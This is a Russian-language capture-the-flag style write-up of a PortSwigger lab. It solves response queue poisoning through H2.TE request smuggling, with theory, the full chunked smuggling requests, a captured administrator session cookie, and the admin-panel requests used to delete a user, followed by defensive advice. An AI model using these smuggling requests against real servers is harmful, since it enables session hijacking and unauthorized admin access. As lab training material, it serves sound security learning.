




лаба 
https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

задание:
через отравление очереди нужно попасть в админку /admin
и делитнуть карлоса

--------
доп теория по Http/; 2

HTTP/2 сам по себе устойчив к контрабанде, потому что у него нет неоднозначности с длиной. **Но!** Весь интернет не может резко и  сразу перейти на HTTP/2.
Огромное количество **бэкенд-серверов до сих пор работают на HTTP/1.1**

классика этого жанра
 когда фронтенд-сервер (nginx, HAProxy, CDN) общается с браузером по HTTP/2, а когда нужно сходить на бэкенд — переписывает запрос в HTTP/1.1 и отправляет его

пример
(

 Мы не ждем, что наша "котарабандная" команда выполнится сама по себе в буфере. Мы используем её, чтобы перехватить чужой ответ. Представь: админ логинится, получает 302 редирект с заветной кукой `session=SUPERSECRET`. Этот ответ попадает не к нему, а в ту самую очередь, которую мы отравили. А мы, отправив следующий запрос в нужный момент, забираем этот ответ с кукой админа себе

)

подробнее здесь [[Theory_base_HTTP_Request _Smuggling]]


- Сервер должен вернуть **два ответа** на один твой запрос
    
- Первый ты забираешь сам
    
- Второй **висит в воздухе** и ждет первого попавшегося пользователя
    
- Админ логинится, а его сессионная кука улетает **не ему, а в тот самый висящий ответ**
    
- Ты своим следующим запросом эту куку и забираешь

-------

но есть и такое:  **Отравление очереди ответов**

- Ты шлешь один запрос, а бэкенд генерирует **два ответа** (из-за путаницы с длиной при даунгрейде) 
    
- Первый ответ возвращается тебе — норм.
    
- Второй ответ **застревает в очереди** на фронтенде 
    
- Следующий пользователь (например, админ, который только что залогинился) шлет запрос — и получает **не свой ответ**, а тот, что висел в очереди 
    
- Ты своим следующим запросом забираешь **ответ админа** с его свежей сессионной кукой 

----


приступаю к решению лабы

вот оригинальный запрос на главную
```http
GET / HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Cookie: session=0JQDMRHbW2l22r43PGcNu4BMMOa4R4bY
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

сразу подготовка запроса к тесту на наличие уязвимости
http smuggling
```
POST / HTTP/1.1
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Length: 1
Transfer-Encoding: chunked


```




-----

если оба заголовка использовать
Content-Length: 1
Transfer-Encoding: chunked

то ошибка 
`"error":"Both chunked encoding and content-length were specified"`

то есть тут запрет идет на то, чтобы - одновременно отправить оба запроса

----

попробую обфускацию - не помогло

-------

попробовал протащить второй запрос используя просто один лишь только заголовок  Transfer-Encoding: chunked

```http
POST /post?postId=7 HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=7 HTTP/1.1
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net


```

и заметил разницу между двумя ответами!
при первом запросе ответ `HTTP/2 405 Method Not Allowed`
при втором запросе овтет `HTTP/2 400 Bad Request "Invalid request"`
это значит - что заголовки путаются!
и уже как бы есть такая уязвимость в HTTP

и я заметил - что могу сам перехватывать свои же запросы!

то есть если я делаю запрос - как выше - а потом в отдельной складке делаю запрос просто на любую страницу сайта - и тут же делаю запрос снова свой - как выше - то я перехватываю сам свои запросы получается - и если бы там был другой чел - то я бы перехватил и его запросы тоже


---
```http
🟣 иногда получается что на запрос


POST /z HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /zx HTTP/1.1
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net


🟣 приходит ответ от
 
 
GET /post?postId=7 HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Length: 0


🟣 то есть я сам себя перехватываю
```
это происходит потому что запрос  GET /post?postId=7 остается в очереди на сервере - и я получаю как бы чужой ответ на запрос GET /zx

то есть отправляя обы запроса
POST /z  и GET /zx  и при этом запрос GET /zx - зависает в очереди!

и запросом GET /post?postId=7 я получаю ответ не на свой запрос 


-------

но не могу поймать админские куки
я отправляю сперва двойной запрос 
```http
POST /z HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /zx HTTP/1.1
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net


```
и чеерез 5-20 сек делаю повторный запрос  POST /z HTTP/2
чтобы получить чужой ответ - но ничего не вижу...
много раз пробовал

хотя - механику эту я полностью понял!
и например - могу перхватить свой любой запрос к сайту этому (делаю так)
1  - отправляю двойной запрос
2 - потом делаю запрос с браузера
3 - делаю с любом месте любой запрос и вместо ответа на свой запрос - получаю ответ на "чужой" свой же другой запрос
- но админский запрос не могу поймать

часто ловлю запрос на ввод логина и пароля - но на сессию не могу поймать

-----

получилось перехватить!
я просто продолжал отпрвавлять запрос
```http
POST /z HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /z HTTP/1.1
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net


```
и вот админка!




```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3508

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Response queue poisoning via H2.TE request smuggling</title>
    </head>
<!--LAB_HEAD_END-->
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Response queue poisoning via H2.TE request smuggling</h2>
                            <a class=link-back href='https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                            <a href="/logout">Log out</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>My Account</h1>
                    <div id=account-content>
                        <p>Your username is: administrator</p>
                        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="W7xUU7WPe6mNWf3MkOR9PlBTZ52QW9IC">
                            <button class='button' type='submit'> Update email </button>
                        </form>
                    </div>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

видимо я перехватил момент - когда админ уже залогинился!
а мне нужно перехватить запрос - когда он только залогинился - и тогда в этом ответе может будет кука сесиии! и я смогу ее угнать и попасть в админку!

аллилуя! получилось!




```
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=EHUTXJUyomvKH0u3BU399qjnfRhu0LwI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

---------

беру куку и иду в админку
```http
GET /admin HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Cookie: session=EHUTXJUyomvKH0u3BU399qjnfRhu0LwI
Content-Length: 0


```
получаю путь 
```html
iv>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>

```


удаляю карлоса
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a21005e041029b4804703fc001700c3.web-security-academy.net
Cookie: session=EHUTXJUyomvKH0u3BU399qjnfRhu0LwI
Content-Length: 0


```
победа




## выводы и защита 

лаба решена. уязвимость h2.te позволила отравить очередь ответов

фронт принимает http/2 запросы и даунгрейдит их до http/1.1 для бэка, оставляя transfer-encoding: chunked даже при неоднозначной длине (отправляя внутренние (вторые) запросы http/1.1  - ответ норм был)

из-за этого один мой запрос заставил бэк сгенерировать два ответа (и эти запросы висели в очереди)

-первый ушел мне, второй завис в очереди на фронте

когда админ залогинился, его 302 редирект с сессионной кукой попал не к нему, а в эту очередь

я своим следующим запросом забрал этот ответ, украл куку и вошел в админку от имени администратора

### защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

при даунгрейде http/2 в http/1.1 фронт должен строго валидировать запросы и удалять transfer-encoding, если он не разрешен

запрещать любые запросы с неоднозначной длиной

не допускать генерации двух ответов на один запрос — если такое происходит, соединение должно рваться

использовать end-to-end http/2 где возможно. и регулярно обновлять софт
